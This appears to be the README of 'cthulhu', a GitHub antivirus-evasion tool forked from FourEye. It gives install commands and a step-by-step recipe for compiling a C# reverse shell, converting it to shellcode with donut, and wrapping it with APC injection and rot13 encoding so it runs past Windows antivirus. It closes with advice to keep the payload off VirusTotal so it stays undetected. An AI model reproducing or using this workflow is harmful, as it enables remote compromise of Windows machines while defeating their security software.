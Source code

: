 

# cthulhu

AV Evasion, a FourEye fork (https://github.com/lengjibo/FourEye) by Leginbo

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulhu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

[+]shellcode created: /tmp/shellcode.exe

8. Bind the right port on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    

